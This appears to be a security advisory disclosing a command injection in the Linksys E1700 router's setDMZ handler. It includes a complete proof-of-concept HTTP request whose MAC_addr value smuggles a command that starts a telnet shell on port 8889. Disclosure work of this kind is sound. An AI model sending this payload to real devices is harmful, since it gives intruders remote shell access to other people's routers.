



# Linksys Vulnerability

Vendor:Linksys

Product:E1700

Version:E1700(1.0.0.4.003)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `setDMZ` function, `MAC_addr` is directly passed by the attacker, so we can control the `MAC_addr` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset` to store this input.

<div  align="center"></div>

`mod_form.so->sysctl`

In `sysctl` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `MAC_addr` as **'`busybox telnetd -l /bin/sh -p 8889`'** , and the router will excute it,such as:

```http
POST /goform/setDMZ HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 187
Origin: http://192.168.1.1
Connection: keep-alive
Referer: http://192.168.1.1/advanced/dmz.shtml;session_id=8usR3Bncz1dcj1Sie1kV8lvIVORn8lOG
Upgrade-Insecure-Requests: 1

token=1qxpKIOOCMDwaU5c6BRp&DMZIPAddress=192.168.1.0&dst_ip_range=0.0.0.0-0&MAC_addr='`busybox telnetd -l /bin/sh -p 8889`'&DMZEnabled=1&dmz_src_any=1&dmz_dst_ip=0&dmz_mac=FC%3AFC%3AFC%3AFC%3AFC%3AFC
```


## Result

Get a shell!

<div  align="center"></div>

